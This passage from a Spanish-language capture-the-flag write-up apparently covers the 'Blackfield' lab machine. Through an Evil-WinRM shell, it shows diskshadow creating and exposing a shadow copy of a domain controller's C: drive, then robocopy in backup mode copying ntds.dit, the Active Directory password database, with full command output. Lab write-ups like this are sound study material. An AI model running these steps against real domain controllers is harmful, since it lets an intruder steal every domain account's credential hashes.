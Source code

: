 4. Una vez subido ejecutamos estos comandos:

```bash
*Evil-WinRM* PS C:\ProgramData> diskshadow /s elc4br4.dsh
Microsoft DiskShadow version 1.0
Copyright (C) 2013 Microsoft Corporation
On computer:  DC01,  9/27/2022 1:01:36 PM

-> set context persistent nowriters
-> add volume c: alias raj
-> create
Alias raj for shadow ID {e11c7a09-e980-49d8-9e30-e8f4ed101d3c} set as environment variable.
Alias VSS_SHADOW_SET for shadow set ID {6be231cf-7fa4-41ee-9ca8-b8d278040097} set as environment variable.

Querying all shadow copies with the shadow copy set ID {6be231cf-7fa4-41ee-9ca8-b8d278040097}

	* Shadow copy ID = {e11c7a09-e980-49d8-9e30-e8f4ed101d3c}		%raj%
		- Shadow copy set: {6be231cf-7fa4-41ee-9ca8-b8d278040097}	%VSS_SHADOW_SET%
		- Original count of shadow copies = 1
		- Original volume name: \\?\Volume{6cd5140b-0000-0000-0000-602200000000}\ [C:\]
		- Creation time: 9/27/2022 1:01:37 PM
		- Shadow copy device name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2
		- Originating machine: DC01.BLACKFIELD.local
		- Service machine: DC01.BLACKFIELD.local
		- Not exposed
		- Provider ID: {b5946137-7b9f-4925-af80-51abd60b20d5}
		- Attributes:  No_Auto_Release Persistent No_Writers Differential

Number of shadow copies listed: 1
-> expose %raj% z:
-> %raj% = {e11c7a09-e980-49d8-9e30-e8f4ed101d3c}
The  drive letter is already in use.
```

```bash
*Evil-WinRM* PS C:\ProgramData> robocopy /b z:\windows\ntds . ntds.dit

-------------------------------------------------------------------------------
   ROBOCOPY     ::     Robust File Copy for Windows
-------------------------------------------------------------------------------

  Started : Tuesday, September 27, 2022 1:04:39 PM
   Source : z:\windows\ntds\
     Dest : C:\ProgramData\

    Files : ntds.dit

  Options : /DCOPY:DA /COPY:DAT /B /R:1000000 /W:30

------------------------------------------------------------------------------

	                  1	z:\windows\ntds\

------------------------------------------------------------------------------

               Total    Copied   Skipped  Mismatch    FAILED    Extras
    Dirs :         1         0         1         0         0         0
   Files :         1         0         1         0         0         0
   Bytes :   18.00 m         0   18.00 m         0         0         0
   Times :   0:00:00   0:00:00                       0:00:00   0:00:00
   Ended : Tuesday, September 27, 2022 1:04:39 PM
```
